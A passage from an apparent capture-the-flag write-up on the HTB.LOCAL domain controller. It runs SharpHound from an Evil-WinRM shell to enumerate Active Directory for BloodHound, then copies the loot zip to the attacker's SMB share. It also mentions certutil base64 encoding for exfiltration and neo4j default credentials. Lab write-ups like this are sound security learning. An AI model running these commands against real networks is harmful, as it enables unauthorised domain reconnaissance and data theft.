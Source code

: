 At this point, I didn't find anything exploitable from winPEAS output.

### Exploring exploitable paths with `BloodHound`

As it is a Domain Controller, we can also use [BloodHound](https://github.com/BloodHoundAD/BloodHound#about-bloodhound) to visualize the domain and see if there are potential privilege escalation paths.

#### Method #1: using `SharpHound`

1. On our attacker machine, we have to download [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe):

    ```bash
    $ wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.exe
    ```

2. Then we can transfer it the same way we did for **winPEAS** (using **impacket** `smbserver.py`)

3. After executing it we'll have a zip file that we can transfer once again with our SMB server and then upload it to the **BloodHound** web app:

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe
    ----------------------------------------------
    Initializing SharpHound at 5:34 AM on 9/6/2021
    ----------------------------------------------

    Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

    [+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=htb,DC=local
    [+] Cache File not Found: 0 Objects in cache

    [+] Pre-populating Domain Controller SIDS
    Status: 0 objects finished (+0) -- Using 21 MB RAM
    Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
    Enumeration finished in 00:00:02.3907594
    Compressing data to .\20210906053417_BloodHound.zip
    You can upload this file directly to the UI

    SharpHound Enumeration Completed at 5:34 AM on 9/6/2021! Happy Graphing!
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy .\20210906053417_BloodHound.zip \\10.10.14.12\kali\20210906053417_BloodHound.zip
    ```

    > Another way to transfer the zip file is to encode it in base64 using `certutil -encode 20210906053417_BloodHound.zip loot.txt`

4. In order to run **BloodHound** on our attacker machine, we have to run these commands:

```bash
# Open a terminal and type the following:
$ neo4j console # default credentials -> neo4j:neo4j
# In another terminal, open bloodhound:
$ bloodhound
```
